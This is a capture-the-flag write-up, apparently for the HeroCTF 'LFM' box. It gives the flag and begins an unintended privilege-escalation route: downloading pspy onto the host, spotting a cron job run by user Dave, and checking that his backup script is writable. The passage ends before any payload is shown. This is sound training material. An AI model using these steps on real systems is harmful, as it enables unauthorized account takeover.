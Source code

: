 Flag : **Hero{4_l1ttle_h1st0ry_l3ss0n_4_u}**

## LFM - Unintended Way : Get a shell as Dave<a name="unintended"></a>

Note :

```
I tried a lot of things to get a shell back as Dave. Nothing worked.

Before stopping my research, i've contacted Log_s to ask hime, if there is any way to get a shell as Dave. And the answer is YES!

As you can see bellow in french, he told me that he made a misstake while patching another box. Dave keep executing the backup script, and the backup user is allowed to write in it. So simply put a payload in it should give us a shell as Dave.

Of course, this mean you can bypass the challenge 3 and 4.
```

![0-discord](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/0a004874-ee37-40e4-878f-a35aeeed31cd)

### Solution

Now let's see how to achieve this.  Come back ton a "backup" user terminal (after using the LFI/RCE to get a www-data shell and escalate to backup using rsync).

First we will use `Pspy` utility to inspect when and how the backup file is executed.

To do it we download `pspy` directly on the machine as we have internet access.

```bash
backup@backup:/var/www/html$ cd /tmp
backup@backup:/tmp$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

Give it execution right and execute it.

```bash
backup@backup:/tmp$ chmod +x pspy64
backup@backup:/tmp$ ./pspy64
```

Now keep looking at the output and wait a bit.

![1-cron](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/e85cc384-4cc0-46aa-9ab6-f3bc065ea376)

Perfect, we can see that the user with id "1000" run the command `/bin/sh /bin/backup.sh`. So this should be Dave executing the backup utility.

Next, let's look at the utility permissions.

```bash
backup@backup:/backup$ ls -la backup.sh
ls -la backup.sh
-rwxr-xr-x 1 backup backup 760 May 12 10:17 backup.sh
```
